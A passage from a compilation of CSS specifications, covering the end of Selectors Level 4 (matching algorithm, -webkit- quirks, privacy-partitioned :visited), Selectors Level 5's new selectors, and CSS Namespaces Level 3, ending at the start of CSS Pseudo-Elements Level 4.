This section defines how to **match a selector against a tree**.

APIs using this algorithm must provide a selector, and one or more *root elements* indicating the subtrees that will be searched by the selector. All of the *root elements* must share the same root, or else calling this algorithm is invalid.

They may optionally provide:

- One or more scoping roots indicating the selector is scoped.
- A list of pseudo-elements that are allowed to show up in the match list. If not specified, this defaults to allowing all pseudo-elements.

  > **Issue:** Only the tree-abiding pseudo-elements are really handled in any way remotely like this.

This algorithm returns a (possibly empty) list of elements.

1. Start with a list of *candidate elements*, which are the *root elements* and all of their descendant elements, sorted in shadow-including tree order, unless otherwise specified.
2. If scoping root were provided, then remove from the *candidate elements* any elements that are not descendants of at least one scoping root.
3. Initialize the *selector match list* to empty.
4. For each *element* in the set of *candidate elements*:

  1. If the result of match a selector against an element for *element* and *selector* is success, add *element* to the *selector match list*.
  2. For each possible pseudo-element associated with *element* that is one of the pseudo-elements allowed to show up in the match list, if the result of match a selector against a pseudo-element for the pseudo-element and *selector* is success, add the pseudo-element to the *selector match list*.

     > **Issue:** The relative position of pseudo-elements in *selector match list* is undefined. There’s not yet a context that exposes this information, but we need to decide on something eventually, before something *is* exposed.

### Appendix A: Guidance on Mapping Source Documents & Data to an Element Tree {#selectors-4:dom-mapping}

*This section is informative.*

The element tree structure described by the DOM is powerful and useful, but generic enough to model pretty much any language that describes tree-based data (or even graph-based, with a suitable interpretation).

Some languages, like HTML, already have well-defined procedures for producing a DOM object from a resource. If a given language does not, such a procedure must be defined in order for Selectors to apply to documents in that language.

At minimum, the document language must define what maps to the DOM concept of an "element".

The primary one-to-many relationship between nodes—​parent/child in tree-based structures, element/neighbors in graph-based structures—​should be reflected as the child nodes of an element.

Other features of the element should be mapped to something that serves a similar purpose to the same feature in DOM:

**type**

: If the elements in the document language have some notion of "type" as a basic distinguisher between different groups of elements, it should be reflected as the "type" feature.

  If this "type" can be separated into a "basic" name and a "namespace" that groups names into higher-level groups, the latter should be reflected as the "namespace" feature. Otherwise, the element shouldn’t have a "namespace" feature, and the entire name should be reflected as the "type" feature.

**id**

: If some aspect of the element functions as a unique identifier across the document, it should be mapped to the "id" feature.

  > **Note:** While HTML only allows an element to have a single ID, this should not be taken as a general restriction. The important quality of an ID is that each ID should be associated with a single element; a single element can validly have multiple IDs.

**classes and attributes**

: Aspects of the element that are useful for identifying the element, but are not generally unique to elements within a document, should be mapped to the "class" or "attribute" features depending on if they’re something equivalent to a "label" (a string by itself) or a "property" (a name/value pair)

**pseudo-classes and pseudo-elements**

: If any elements match any pseudo-classes or have any pseudo-elements, that must be explicitly defined.

  > **Issue:** Some pseudo-classes are *syntactical*, like `:has()` and `:is()`, and thus should always work. Need to indicate that somewhere. Probably the structural pseudos always work whenever the child list is ordered.

In addition to the above, the document language must define how to match strings originating from the document, if it differs from Selector’s default; see [§ 3.7 Characters and case sensitivity](#selectors-4:case-sensitive) for details.

> **Example:** For example, [JSONSelect](https://github.com/lloyd/JSONSelect) is a library that uses selectors to extract information from JSON documents.
>
> - The "elements" of the JSON document are each array, object, boolean, string, number, or null. The array and object elements have their contents as children.
> - Each element’s type is its JS type name: "array", "object", etc.
> - Children of an object have their key as a class.
> - Children of an array match the `:first-child`, `:nth-child()`, etc pseudo-classes.
> - The root object matches `:root`.
> - It additionally defines `:val()` and `:contains()` pseudo-classes, for matching boolean/number/string elements with a particular value or which contain a particular substring.
>
> This structure is sufficient to allow powerful, compact querying of JSON documents with selectors.

### Appendix B: Obsolete but Required `-webkit-` Parsing Quirks for Web Compat {#selectors-4:compat}

*This appendix is normative.*

Due to legacy Web-compat constraints, user agents expecting to parse Web documents must support the following features:

- `:-webkit-autofill` must be treated as a legacy selector alias of `:autofill`.
- All other pseudo-elements whose names begin with the string “-webkit-” (matched ASCII case-insensitively) and that are not functional notations must be treated as valid at parse time. (That is, `::-webkit-asdf` is valid at parse time, but `::-webkit-jkl()` is not.) If they’re not otherwise recognized and supported, they must be treated as matching nothing, and are **unknown -webkit- pseudo-elements**.

  Unknown -webkit- pseudo-elements must be serialized in ASCII lowercase.

  > **Note:** What’s this quirk about?
  >
  > Selectors have long had a behavior where a single unknown/invalid selector invalidates the entire selector list (rather than just invalidating the one complex selector it finds itself in). This is generally considered a legacy mistake by the WG, but can’t be fixed at this point, as too many stylesheets depend on this behavior, intentionally or not.
  >
  > One aspect of this is that use of vendor-specific selectors invalidates the entire selector in other user agents that don’t recognize them, and takes the entire style rule down with it. This has been used intentionally in the past—​in the severely-not-recommended practice of hiding style rules from some browsers by making them invalid in every other browser—​and unintentionally, with people styling an element and also applying those styles to a vendor-specific pseudo-element (such as the various `input`-related pseudos some browsers expose), not realizing that this hides the entire rule from other browsers.
  >
  > In addition to this more general reasoning, WebKit-derived user agents, such as Safari or Chrome, have an additional quirk related to their vendor-prefixed pseudo-elements, where any `::-webkit-`-prefixed selectors are considered valid at parse time. (This is probably a leftover quirk of an early CSS feature, since dropped, that intentionally treated all possible pseudo-elements as valid at parse time, in anticipation of a feature letting authors define their own pseudo-elements.)
  >
  > Similar to other legacy quirks, such as those documented in [QUIRKS], this particular vendor-specific oddity has become common enough that other user agents are seeing sites breaking due to them depending on it, accidentally or not. As such, since the quirk is in practical terms *required* to render the modern web correctly, specifying it and requiring it for all user agents ensures that today’s web pages are more likely to be correctly rendered in user agents both current and future.
  >
  > As usual with quirks, however, webpages intentionally relying on this will be met with shaming and derision from members of the CSSWG, and all right-thinking web developers.

### Appendix C: Example Privacy-Preserving `:visited` Restrictions {#selectors-4:visited-privacy}

Previous attempts to protect user privacy in `:visited` involved [complex restrictions and behaviors](https://developer.mozilla.org/en-US/docs/Web/CSS/Privacy_and_the_:visited_selector) to "lie" about whether the link match `:visited` or `:link`, to reduce the chance that a hostile site could observe what unrelated sites a user had visited while still allowing `:visited` to work in all cases and help the user know what links they’d already clicked. This is ultimately an arms race that can’t be won; there are multiple documented ways to still extract a user’s browsing history even with these mitigations.

This section describes an approach first developed and documented at [https://github.com/explainers-by-googlers/Partitioning-visited-links-history](https://github.com/explainers-by-googlers/Partitioning-visited-links-history), that partitions a user’s browsing history information, to allow `:visited` to only match links corresponding to navigations that the site’s origin could have observed on its own. With this, `:visited` can be treated as a normal pseudo-class, without any of the complex mitigations described above, as it doesn’t expose any information not already theoretically available to the site, while still preserving as much of the *usefulness* of `:visited` as possible for the user.

1. Let *visited history* be a set containing tuples of three pieces of information:

  - a visited URL
  - an origin for the site that started a navigation
  - a site for the top-level site containing the frame that started the navigation. (This will often be the same as the previous, but can differ if the user clicks a link in a iframe, for example.)
2. Whenever a navigation is triggered *from within a page*—​e.g., from the user clicking a link, or a script on the page initiating a navigation—​add an entry to *visited history* recording the navigation’s destination URL, the origin of the page containing the link or script, and the (schemeful) site of the top-level site containing that page (which might be the same site as the previous origin).

   > **Note:** This allows a site to see `:visited` information for links that the user has clicked from anywhere in that site’s origin. In other words, any `A -> B` navigation where the site is A.

   Additionally, add an entry to *visited history* recording the destination’s URL, the *destination’s* origin, and the *destination’s* site. Do this only for navigations from top-level frames or iframes which are same-origin with their top-level frame.

   > **Note:** This allows for a site to see `:visited` information about its own pages (which is already observable by the site) regardless of what site initiated the navigation to that page. In other words, any `A -> B` navigation where the site is B.

   > **Note:** Notably, direct navigations triggered by the *user agent’s* UI, such as typing into the address bar, clicking on bookmarks, or dragging a link from another program into the page, *do not* add a *visited history* entry. These can, of course, still add to the browser’s record of visited sites that it uses for other purposes, such as suggesting URLs as the user types into the URL bar.
3. When determining if a link element should match `:link` or `:visited`, only allow it to match `:visited` if the link’s destination, the origin of the page containing the link, and the top-level site containing the link match a tuple in *visited history*.

> **Note:** The inclusion of both page origin and top-level site prevents several possible privacy attacks, such as:
>
> - If history entries were *only* keyed by the starting site’s URL, a tracking site could be embedded in a hidden iframe on multiple sites which triggers a navigation to a unique URL for a user on the first visit, and then uses many such links on subsequent visits to see which one had been visited, effectively becoming a new "third-party cookie" identifying the user across the web. By keying the history entry with the top-level site, this information can’t be shared across different sites.
> - If history entires were *only* keyed by the top-level site’s URL, a hostile iframe, perhaps included in a page as part of an advertisement, could observe what sites were visited from the top-level site. By keying the history entry with the link’s own site, the top-level site’s information can’t "leak" into cross-origin iframes.

---

## Selectors Level 5 {#selectors-5}

- **Shortname:** `selectors-5`
- **Editor's Draft:** [https://drafts.csswg.org/selectors-5/](https://drafts.csswg.org/selectors-5/)
- **Published TR:** [https://www.w3.org/TR/selectors-5/](https://www.w3.org/TR/selectors-5/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-08-27
- **Diff Specification Over:** [Selectors Level 4 (`selectors-4`)](#selectors-4)

### 1.  Introduction {#selectors-5:intro}

> **Issue:** **This is a diff spec against [Selectors Level 4](#selectors-4).**

#### 1.1.  Module Interactions {#selectors-5:placement}

This module extends the set of selectors defined for CSS in [selectors-4].

### 2.  Attribute Selectors {#selectors-5:attribute-selectors}

#### 2.1.  Class Prefix Selectors {#selectors-5:class-prefix}

The **class prefix selector** is a variant of the class selector. It consists of a full stop (. U+002E), immediately followed by an identifier that ends in one or more hyphens (- U+002D), immediately followed by an asterisk (* U+002A), such as `.foo-*`.

A class prefix selector represents an element which would match a class selector that started with the given prefix (the ident between the dot and asterisk). A class is considered to start with the given prefix if and only if it begins with that prefix, has at least one character beyond the prefix, and the first such character beyond the prefix is not also a hyphen.

> **Example:** For example, an element with `class="foo-bar-baz"` would match `.foo-*` or `.foo-bar-*`.
>
> An element with `class="foo--bar"`, such as is sometimes used in BEM-style naming, would match `.foo--*`, but **would not match** `.foo-*`. (The separator between those two units is `--`, not `-`.)
>
> An element with `class="foo-bar-"` (ending in a dash) would match `.foo-*`, but **would not match** `.foo-bar-*`. (That’s no longer a prefix, it’s the whole class).

> **Example:** This syntax specifically matches dash-separated prefixes of a class; it does not match *arbitrary* prefixes. For example, `.foo*` is simply an invalid selector (it’s a class selector followed by a universal selector, rather than being a class prefix selector), and will not match elements with `class="foobar"`.
>
> > **Note:** Why not?
> >
> > There are two reasons we don’t allow arbitrary prefixes. For one, they’re easy to mess up; it’s pretty easy to *accidentally* have classes that start with a prefix that you didn’t intend to match. For example, if you use `.foo*` and intend it to match `class="foo1"`, `"foo2"`, etc, it would *also* match `class="footer"`, which is probably unintentional since the "foo" isn’t a semantic unit of the class name. Limiting to dash prefixes makes this sort of confusion nearly impossible.
> >
> > For two, it’s a lot more efficient in user agents. UAs use techniques like [Bloom Filters](https://en.wikipedia.org/wiki/Bloom_filter) to cheaply and quickly test whether a class might exist anywhere in a subtree, without having to examine every element individually. Arbitrary prefixes would require adding every prefix of every class into the filters, which would balloon their size for very little gain, or force UAs to bypass the filters entirely and check the prefix against every element manually. Limiting to dash prefixes means we add relatively few additional entries to the filters, and they’re a lot more likely to be useful since they automatically represent a semantic "unit" of the class name.

> **Note:** This feature is still somewhat experimental. Other separators, like `_`, might be added as possibilities in the future.

### 3.  Location Pseudo-classes {#selectors-5:location}

#### 3.1.  The Local Link Pseudo-class `:local-link` {#selectors-5:local-pseudo}

The **:local-link** pseudo-class allows authors to style [hyperlinks](#selectors-4:the-any-link-pseudo) based on the users current location within a site and to differentiate site-internal versus site-external links.

The (non-functional) `:local-link` pseudo-class represents an element that is the source anchor of a hyperlink whose target’s absolute URL matches the element’s own document URL. Any fragment identifiers are stripped before matching the document’s URL against the link’s URL; otherwise all portions of the URL are considered.

> **Example:** For example, the following rule prevents links targeting the current page from being underlined when they are part of the navigation list:
>
> ```
> nav :local-link { text-decoration: none; } 
> ```

As a functional pseudo-class, `:local-link()` can also accept a non-negative integer as its sole argument, which, if the document’s URL belongs to a hierarchical scheme, indicates the number of path levels to match:

- `:local-link(0)` represents a link element whose target is in the same origin as the document’s URL
- `:local-link(1)` represents a link element whose target has the same origin and first path segment
- `:local-link(2)` represents a link element whose target has the same origin, first, and second path segments
- etc.

> **Example:** The following example styles all site-external links with a dashed underline.
>
> ```
> :not(:local-link(0)) { text-decoration-style: dashed; } 
> ```

Path segments are portions of the URL’s path that are separated by forward slashes (/). If a segment is missing from the document’s URL, a pseudo-class requiring that segment to match does not match anything.

> **Example:** So, given the links:
>
> 1. `<a href="http://www.example.com">Home</a>`
> 2. `<a href="http://www.example.com/2011">2011</a>`
> 3. `<a href="http://www.example.com/2011/03">March</a>`
> 4. `<a href="http://www.example.com/2011/03/">March</a>`
> 5. `<a href="http://www.example.com/2011/03/21">21 March</a>`
> 6. `<a href="https://www.example.com/2011/03/">March</a>`
> 7. `<a href="http://example.com/2011/03/">March</a>`
>
> and the styles:
>
> 1. `a:local-link {...}`
> 2. `a:local-link(0) {...}`
> 3. `a:local-link(1) {...}`
> 4. `a:local-link(2) {...}`
> 5. `a:local-link(3) {...}`
> 6. `a:local-link(4) {...}`
>
> If the document’s URL is `http://www.example.com/2011/03/`:
>
> 1. Link 1 would receive Style B
> 2. Link 2 would receive Styles B and C
> 3. Link 3 would receive Styles B, C, and D
> 4. Link 4 would also receive Styles A, B, C, D, and E
> 5. Link 5 would receive Styles B, C, and D
> 6. Link 6 would remain unstyled
> 7. Link 7 would remain unstyled
> 8. Style F would not be applied to anything

The "origin" of the URL is defined by [RFC 6454, Section 4](http://tools.ietf.org/html/rfc6454#section-4). The username, password, query string, and fragment portions of the URL are not considered when matching against `:local-link(n)`. If the document’s URL does not belong to a hierarchical scheme, the functional pseudo-class matches nothing.

> **Issue:** It’s clear that, if the document URL has at least N segments, then `:local-link(N)` only matches links whose URL has at least N segments. (This lets you assign consistent semantics to :local-link so that, for example, :local-link(2) means a "within-repo" link on GitHub.) What about if the document url has less than N segments, and the link is same-page? Should "null segments" count as matching, or not?

### 4.  User Action Pseudo-classes {#selectors-5:useraction-pseudos}

#### 4.1.  The Interest Pseudo-classes: `:interest-source` and `:interest-target` {#selectors-5:interest-pseudos}

A common UI feature is the ability for the user to **show interest** in certain elements (an **interest source**), and the UI to respond to that interest by showing additional information in another element (the **interest target**), typically a popup. For example, hovering a username on a page might bring up an information card for that user; or long-pressing a link might bring up a preview of the link’s destination.

> **Note:** Exactly what elements are capable of being interest sources, how they’re linked to interest targets, and how interest is shown are all host language-defined. In HTML, for example, this is done with the `interestfor` attribute to indicate an element that a user can show interest in (an interest source), and that attribute points to another element intended to show the additional information (the associated interest target) (usually a `popover` element).
>
> The unifying quality of interest-showing methods is that they are *non-primary* interactions. Directly activating an element (clicking, tapping, activating via keyboard) executes some action on the element; hovering, long-pressing, focusing, etc might instead show interest.

The **:interest-source** pseudo-class applies to an interest source element that the user is currently showing interest in, and the **:interest-target** pseudo-class applies to the associated interest target of an element matching `:interest-source`.

> **Note:** `:interest-source` only matches an interest source the user is *currently* interested in, not any element that can *potentially* have interest shown in it. In HTML, for example, just having the `interestfor` attribute does not make an element match this pseudo-class; the user has to actually indicate interest in it too. Similarly, `:interest-target` only matches an interest target that is linked to an element the user is *currently* interested in, not any element pointed to by an `interestfor` attribute.

### 5.  The Input Pseudo-classes {#selectors-5:input-pseudos}

#### 5.1.  Input Value-checking {#selectors-5:ui-validity}

##### 5.1.1.  The Empty-Value Pseudo-class: `:blank` {#selectors-5:blank}

The **:blank** pseudo-class applies to user-input elements whose input value is empty (consists of the empty string or otherwise null input).

> **Note:** Roughly speaking, if a human looked at a printout of the form and would say it’s blank, it matches `:blank`.
>
> A rule of thumb for interpreting `:blank` on form controls is:
>
> - If the control always submits, and would do so with an empty string, it matches `:blank`. (Such as HTML’s `<input type=text>` when its value is empty.)
> - If it sometimes submits, and is set to not submit, it matches `:blank`. (Such as HTML’s `<input type=checkbox>` when not checked.)
> - If it’s an “action button” (rather than a “toggle button” that represents a state) such as `<button>`, `<input type=submit>`, etc., it never matches `:blank`.
>
> Host languages can specify more precise rules for when form controls match `:blank`.

### 6.  Time-dimensional Pseudo-classes {#selectors-5:time-pseudos}

These pseudo-classes classify elements with respect to the currently-displayed or active position in some timeline, such as during speech rendering of a document, or during the display of a video using WebVTT to render subtitles.

CSS does not define this timeline; the host language must do so. If there is no timeline defined for an element, these pseudo-classes must not match the element.

> **Note:** Ancestors of a `:current` element are also `:current`, but ancestors of a `:past` or `:future` element are not necessarily `:past` or `:future` as well. A given element matches at most one of `:current`, `:past`, or `:future`.

#### 6.1.  The Current-element Pseudo-class: `:current` {#selectors-5:the-current-pseudo}

The **:current** pseudo-class represents the element, or an ancestor of the element, that is currently being displayed.

Its alternate form **:current()** takes a list of compound selectors as its argument: it represents the `:current` element that matches the argument or, if that does not match, the innermost ancestor of the `:current` element that does. (If neither the `:current` element nor its ancestors match the argument, then the selector does not represent anything.)

> **Example:** For example, the following rule will highlight whichever paragraph or list item is being read aloud in a speech rendering of the document:
>
> ```
> :current(p, li, dt, dd) {
>   background: yellow;
> }
> ```

#### 6.2.  The Past-element Pseudo-class: `:past` {#selectors-5:the-past-pseudo}

The **:past** pseudo-class represents any element that is defined to occur entirely prior to a `:current` element. For example, the WebVTT spec defines the `:past` pseudo-class [relative to the current playback position of a media element](https://w3c.github.io/webvtt/#the-past-and-future-pseudo-classes). If a time-based order of elements is not defined by the document language, then this represents any element that is a (possibly indirect) previous sibling of a `:current` element.

#### 6.3.  The Future-element Pseudo-class: `:future` {#selectors-5:the-future-pseudo}

The **:future** pseudo-class represents any element that is defined to occur entirely after a `:current` element. For example, the WebVTT spec defines the `:future` pseudo-class [relative to the current playback position of a media element](https://w3c.github.io/webvtt/#the-past-and-future-pseudo-classes). If a time-based order of elements is not defined by the document language, then this represents any element that is a (possibly indirect) next sibling of a `:current` element.

### 7.  Exposing custom state: the `:state()` pseudo-class {#selectors-5:custom-state}

The **:state( `<ident>` )** pseudo-class matches custom elements whose states set contains a string that is the selector’s argument’s value.

> **Note:** The "is" matching behavior compares strings by codepoint; notably, it’s case-sensitive. So if "foo" is in the states set, `:state(FOO)` will *not* match.

The exact matching behavior of `:state()` pseudo-class is defined by the host language. For clarity, the concepts explaining this pseudo-class link to the HTML definition; see [HTML’s definition](https://html.spec.whatwg.org/multipage/custom-elements.html#custom-state-pseudo-class) for more detail. Other host languages must define how this pseudo-class matches.

### 8.  Heading Structures: the heading pseudo-classes `:heading`, and `:heading()` {#selectors-5:headings}

The (non-functional) **:heading** pseudo-class matches an element which has a heading level, with respect to the semantics defined by the document language (e.g. [HTML5]).

The specificity of `:heading` is that of a class.

> **Example:** For example, the following sheet contains a rule applying to all heading elements in the current page:
>
> ```
> :heading { text-decoration: underline; }
> ```

As a functional pseudo-class, **:heading()** notation represents elements that have a heading level among matching any of the provided *integer* values. The syntax is:

```css
:heading() = :heading( <level># )
```

where **`<level>`** is a `<number-token>` with its type flag set to "integer".

The specificity of `:heading()` is that of a class.

> **Example:** The following example styles headings with levels between 1 and 3 with a font-weight of 900, while headings with levels 6 onward with font-weight of 500, additionally heading levels 1 and 2 will be underlined, while 3 and beyond will have no text-decoration:
>
> ```
> :heading(1, 2, 3) { font-weight: 900; }
> ```
>
> ```
> :heading(6, 7, 8, 9) { font-weight: 500; }
> ```
>
> ```
> :heading(1, 2) { text-decoration: underline; }
> ```
>
> ```
> :heading(3, 4, 5, 6, 7, 8, 9) { text-decoration: none; }
> ```

> **Note:** The heading level might be different from an element’s type selector. Thus, a selector `h1:heading(3)` matches any `h1` tag which has an exposed heading level of 3.

### 9.  Grid-Structural Selectors {#selectors-5:grid-structural-selectors}

The double-association of a cell in a 2D grid (to its row and column) cannot be represented by parentage in a hierarchical markup language. Only one of those associations can be represented hierarchically: the other must be explicitly or implicitly defined in the document language semantics. In both HTML and DocBook, two of the most common hierarchical markup languages, the markup is row-primary (that is, the row associations are represented hierarchically); the columns must be implied. To be able to represent such implied column-based relationships, the column combinator and the `:nth-col()` and `:nth-last-col()` pseudo-classes are defined. In a column-primary format, these pseudo-classes match against row associations instead.

#### 9.1.  Column combinator (`||`) {#selectors-5:the-column-combinator}

The **column combinator**, which consists of two pipes (**||**) represents the relationship of a column element to a cell element belonging to the column it represents. Column membership is determined based on the semantics of the document language only: whether and how the elements are presented is not considered. If a cell element belongs to more than one column, it is represented by a selector indicating membership in any of those columns.

> **Example:** The following example makes cells C, E, and G gray.
>
> ```
> col.selected || td {
>   background: gray;
>   color: white;
>   font-weight: bold;
> }
> ```
>
> ```
> <table>
>   <col span="2">
>   <col class="selected">
>   <tr><td>A <td>B <td>C
>   <tr><td colspan="2">D <td>E
>   <tr><td>F <td colspan="2">G
> </table>
> ```

#### 9.2.  `:nth-col()` pseudo-class {#selectors-5:the-nth-col-pseudo}

The **:nth-col(*An+B*)** pseudo-class notation represents a cell element belonging to a column that has *An+B*-1 columns **before** it, for any positive integer or zero value of `n`. Column membership is determined based on the semantics of the document language only: whether and how the elements are presented is not considered. If a cell element belongs to more than one column, it is represented by a selector indicating any of those columns.

The CSS Syntax Module [CSS3SYN] defines the [*An+B* notation](#css-syntax-3:anb).

#### 9.3.  `:nth-last-col()` pseudo-class {#selectors-5:the-nth-last-col-pseudo}

The **:nth-last-col(*An+B*)** pseudo-class notation represents a cell element belonging to a column that has *An+B*-1 columns **after** it, for any positive integer or zero value of `n`. Column membership is determined based on the semantics of the document language only: whether and how the elements are presented is not considered. If a cell element belongs to more than one column, it is represented by a selector indicating any of those columns.

The CSS Syntax Module [CSS3SYN] defines the [*An+B* notation](#css-syntax-3:anb).

### 10.  Combinators {#selectors-5:combinators}

#### 10.1.  Reference combinators `/ref/` {#selectors-5:idref-combinators}

The **reference combinator** consists of two slashes with an intervening [CSS qualified name](#css-namespaces-3:css-qnames), and separates two compound selectors, e.g. `A /attr/ B`. The element represented by the first compound selector explicitly references the element represented by the second compound selector. Unless the host language defines a different syntax for expressing this relationship, this relationship is considered to exist if the value of the specified attribute on the first element is an IDREF or an ID selector referencing the second element.

Attribute matching for reference combinators follow the same rules as for [attribute selectors](#selectors-5:attribute-selectors).

> **Example:** The following example highlights an input element when its [`<label>`](http://www.w3.org/TR/html40/interact/forms.html#h-17.9) is focused or hovered-over:
>
> ```
> label:is(:hover, :focus) /for/ input,       /* association by "for" attribute */
> label:is(:hover, :focus):not([for]) input { /* association by containment */
>   box-shadow: yellow 0 0 10px;
> }
> ```

### 11.  Grammar {#selectors-5:grammar}

This module extends the CSS grammar of selectors with:

```css
<combinator> = '>' | '+' | '~' | [ '|' '|' ] | [ / <wq-name> / ]
<class-selector> = '.' <ident-token> '*'?
```

- White space is forbidden:

  - Between the components of a `<combinator>`.
  - Between any of the components of a `<class-selector>`.
- In `<class-selector>`, `*` must be omitted if `<ident-token>` does not end with an hyphen (- U+002D).

---

## CSS Namespaces Module Level 3 {#css-namespaces-3}

- **Shortname:** `css-namespaces-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-namespaces/](https://drafts.csswg.org/css-namespaces/)
- **Published TR:** [https://www.w3.org/TR/css3-namespace/](https://www.w3.org/TR/css3-namespace/)
- **W3C Status:** ED (completed)
- **Last Edited:** 2024-10-25

### 1.  Introduction {#css-namespaces-3:intro}

*This section is non-normative.*

This CSS Namespaces module defines syntax for using namespaces in CSS. It defines the `@namespace` rule for declaring a default namespace and for binding namespaces to namespace prefixes. It also defines a syntax for using those prefixes to represent namespace-qualified names. It does not define where such names are valid or what they mean: that depends on their context and is defined by a host language, such as Selectors ([SELECT]), that references the syntax defined in the CSS Namespaces module.

Note that a CSS client that does not support this module will (if it properly conforms to [CSS’s forward-compatible parsing rules](#css2:parsing-errors)) ignore all `@namespace` rules, as well as all style rules that make use of namespace qualified names. The syntax of delimiting namespace prefixes in CSS was deliberately chosen so that these CSS clients would ignore the style rules rather than possibly match them incorrectly.

#### 1.1.  Terminology {#css-namespaces-3:terminology}

Besides terms introduced by this specification, CSS Namespaces uses the terminology defined in Namespaces in XML 1.0. [XML-NAMES] However, the syntax defined here is not restricted to representing XML element and attribute names and may represent other kinds of namespaces as defined by the host language.

In CSS Namespaces a namespace name consisting of the empty string is taken to represent the null namespace or lack of a namespace.

> **Example:** For example, given the namespace declarations:
>
> ```
> @namespace empty "";
> @namespace "";
> ```
>
> The type selectors `elem`, `|elem`, and `empty|elem` are equivalent.

### 2. Declaring namespaces: the `@namespace` rule {#css-namespaces-3:declaration}

The **@namespace** at-rule declares a namespace prefix and associates it with a given namespace name (a string). This namespace prefix can then be used in namespace-qualified names such as the CSS qualified names defined below.

> **Example:** ```
> @namespace "http://www.w3.org/1999/xhtml";
> @namespace svg "http://www.w3.org/2000/svg";
> ```
>
> The first rule declares a default namespace `http://www.w3.org/1999/xhtml` to be applied to names that have no explicit namespace component.
>
> The second rule declares a namespace prefix `svg` that is used to apply the namespace `http://www.w3.org/2000/svg` where the `svg` namespace prefix is used.

In CSS Namespaces, as in Namespaces in XML 1.0, the prefix is merely a syntactic construct; it is the **expanded name** (the tuple of local name and namespace name) that is significant. Thus the actual prefixes used in a CSS style sheet, and whether they are defaulted or not, are independent of the namespace prefixes used in the markup and whether these are defaulted or not.

> **Example:** For example, given the following XML document:
>
> ```
> <qml:elem xmlns:qml="http://example.com/q-markup"></qml:elem>
> ```
>
> and the following `@namespace` declarations at the beginning of a CSS file:
>
> ```
> @namespace Q "http://example.com/q-markup";
> @namespace lq "http://example.com/q-markup";
> ```
>
> The selectors `Q|elem` and `lq|elem` in that CSS file would both match the element `<qml:elem>`.
>
> (The selector `qml|elem` would be invalid, because CSS namespaces only recognize prefixes declared in CSS, not those declared by the document language.)

#### 2.1.  Syntax {#css-namespaces-3:syntax}

The syntax for the `@namespace` rule is:

```
@namespace <namespace-prefix>? [ <string> | <url> ] ;

<namespace-prefix> = <ident>
```

Any `@namespace` rules must follow all @charset and @import rules and precede all other non-ignored at-rules and style rules in a style sheet. For CSS syntax this adds `[ namespace [SCDOCDC]* ]*` immediately after `[ import [SCDOCDC]* ]*` in the `stylesheet` grammar.

A syntactically invalid `@namespace` rule (whether malformed or misplaced) must be [ignored](#css2:ignore). A CSS [style sheet](#css2:style-sheet) containing an invalid `@namespace` rule is not a [valid style sheet](#css2:valid-style-sheet).

A URI string parsed from the `URI` syntax must be treated as a literal string: as with the `STRING` syntax, no URI-specific normalization is applied.

All strings—​including the empty string and strings representing invalid URIs—​are valid namespace names in `@namespace` declarations.

#### 2.2.  Scope {#css-namespaces-3:scope}

The namespace prefix is declared only within the style sheet in which its `@namespace` rule appears. It is not declared in any style sheets importing or imported by that style sheet, nor in any other style sheets applying to the document.

#### 2.3.  Declaring Prefixes {#css-namespaces-3:prefixes}

A **namespace prefix**, once declared, represents the namespace for which it was declared and can be used to indicate the namespace of a namespace-qualified name. Namespace prefixes are, [like CSS counter names](#css2:counter), case-sensitive.

If in the namespace declaration the namespace prefix is omitted, then the namespace so declared is the default namespace. The **default namespace** may apply to names that have no explicit namespace prefix: modules that employ namespace prefixes must define in which contexts the default namespace applies. For example, following [XML-NAMES], in Selectors [SELECT] the default namespace applies to type selectors—​but it does not apply to attribute selectors. There is no default value for the default namespace: modules that assign unqualified names to the default namespace must define how those unqualified names are to be interpreted when no default namespace is declared.

> **Note:** Note that using default namespaces in conjunction with type selectors can cause UAs that support default namespaces and UAs that don’t support default namespaces to interpret selectors differently.

If a namespace prefix or default namespace is declared more than once only the last declaration shall be used. Declaring a namespace prefix or default namespace more than once is nonconforming.

### 3.  CSS Qualified Names {#css-namespaces-3:css-qnames}

A **CSS qualified name** is a name explicitly located within (associated with) a namespace. To form a qualified name in CSS syntax, a namespace prefix that has been declared within scope is prepended to a local name (such as an element or attribute name), separated by a "vertical bar" (`|`, U+007C). The prefix, representing the namespace for which it has been declared, indicates the namespace of the local name. The prefix of a qualified name may be omitted to indicate that the name belongs to no namespace, i.e. that the namespace name part of the expanded name has no value. Some contexts (as defined by the host language) may allow the use of an asterisk (`*`, U+002A) as a wildcard prefix to indicate a name in any namespace, including no namespace.

> **Example:** Given the namespace declarations:
>
> ```
> @namespace toto "http://toto.example.org";
> @namespace "http://example.com/foo";
> ```
>
> In a context where the default namespace applies
>
> **`toto|A`**
>
> : represents the name `A` in the `http://toto.example.org` namespace.
>
> **`|B`**
>
> : represents the name `B` that belongs to no namespace.
>
> **`*|C`**
>
> : represents the name `C` in any namespace, including no namespace.
>
> **`D`**
>
> : represents the name `D` in the `http://example.com/foo` namespace.

The syntax for the portion of a CSS qualified name before the local name is given below, both for qualified names that allow wildcard prefixes (`wqname`) and for qualified names that disallow wildcard prefixes (`qname`). (The syntax uses notation from the [Grammar appendix of CSS 2.1](#css2). [CSS21] Note this means that comments, but not white space, are implicitly allowed between tokens.):

```
qname_prefix
  : namespace_prefix? '|'
  ;
wqname_prefix
  : [ namespace_prefix? | '*' ] '|'
  ;
qname
  : qname_prefix? ident
  ;
wqname
  : wqname_prefix? ident
  ;
wqwname
  : wqname_prefix? [ ident | '*' ]
  ;
```

CSS qualified names can be used in (for example) selectors and property values as described in other modules. Those modules must define handling of namespace prefixes that have not been properly declared. Such handling should treat undeclared namespace prefixes as a parsing error that will cause the selector or declaration (etc.) to be considered invalid and, in CSS, [ignored](#css2:ignore).

> **Example:** For example, the Selectors module [SELECT] defines a type selector with an undeclared namespace prefix to be an invalid selector, and CSS [CSS21] requires style rules with an invalid selector to be completely ignored.

---

## CSS Pseudo-Elements Module Level 4 {#css-pseudo-4}

- **Shortname:** `css-pseudo-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-pseudo-4/](https://drafts.csswg.org/css-pseudo-4/)
- **Published TR:** [https://www.w3.org/TR/css-pseudo-4/](https://www.w3.org/TR/css-pseudo-4/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2026-10-15

### 1. Introduction {#css-pseudo-4:intro}

*This section is informative.*

